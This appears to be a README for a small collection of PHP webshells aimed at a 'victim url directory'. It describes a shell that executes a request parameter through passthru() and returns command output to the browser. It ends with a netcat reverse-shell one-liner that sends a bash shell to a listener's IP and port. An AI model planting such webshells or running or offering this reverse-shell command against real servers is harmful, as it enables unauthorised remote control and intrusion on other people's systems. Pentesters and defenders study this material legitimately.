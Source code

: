 <h3 align='center'><b> shell_with_curl.php </b></h3> 
 <p>A simple webshell check by curl command to that file in victim url directory
<h3 align='center'><b> shell_with_param.php </b></h3> 
 <p>A simple webshell works by taking a parameter and executing it as a system command.
<h3 align='center'><b> webshell.php </b></h3>
 <p> In pseudocode, the above snippet is doing the following:
  <ol>
    <li> Checking if the parameter "commandString" is set
    <li> If it is, then the variable $command_string gets what was passed into the input field
    <li> The program then goes into a try block to execute the function passthru($command_string).  The docs on passthru() on <a href='https://www.php.net/manual/en/function.passthru.php'> PHP's website </a>, but in general, it is executing what gets entered into the input then passing the output directly back to the browser.
    <li>If the try does not succeed, output the error to page.  Generally this won't output anything because you can't output stderr but PHP doesn't let you have a try without a catch.

<h3 align='center'><b> bash shell command </b></h3> 
   <pre><code>nc -e /bin/bash &lt;LISTEN_IP> &lt;LISTEN_PORT></code></pre>
